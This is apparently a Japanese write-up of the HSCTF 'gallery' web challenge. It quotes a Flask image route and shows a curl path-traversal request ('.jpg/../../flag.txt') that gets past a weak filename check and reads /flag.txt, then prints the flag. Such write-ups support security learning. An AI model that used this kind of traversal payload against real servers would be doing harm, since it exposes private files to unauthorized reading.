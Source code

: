 # gallery:web:201pts
Look at these images I found!  
[http://web1.hsctf.com:8003](http://web1.hsctf.com:8003/)  
Downloads  
[gallery.zip](gallery.zip)  

# Solution
URLとソースが渡される。  
アクセスすると、ギャラリーのようだ。  
Image Gallery  
[site.png](site/site.png)  
画像の一つを開くと次のようなURLへ遷移した。  
```
http://web1.hsctf.com:8003/image?image=Abstract-Wallpaper.jpg
```
パストラバーサルが怪しい。  
ソースを見ると以下のようであった。  
```python
~~~
@app.route("/image")
def image():
	if "image" not in request.args:
		return "Image not provided", 400
	if ".jpg" not in request.args["image"]:
		return "Invalid filename", 400
	
	file = IMAGE_FOLDER.joinpath(Path(request.args["image"]))
	if not file.is_relative_to(IMAGE_FOLDER):
		return "Invalid filename", 400
	
	try:
		return send_file(file.resolve())
	except FileNotFoundError:
		return "File does not exist", 400

@app.route("/flag")
def flag():
	if 2 + 2 == 5:
		return send_file("/flag.txt")
	else:
		return "No.", 400
~~~
```
フラグは`/flag.txt`にあり、`.jpg`が画像パスに含まれている必要がある。  
```bash
$ curl http://web1.hsctf.com:8003/image?image=.jpg/../../flag.txt
flag{1616109079_is_a_cool_number}
```
無理やり`.jpg`を入れ込みトラバーサルするとflagが読み取れた。  

## flag{1616109079_is_a_cool_number}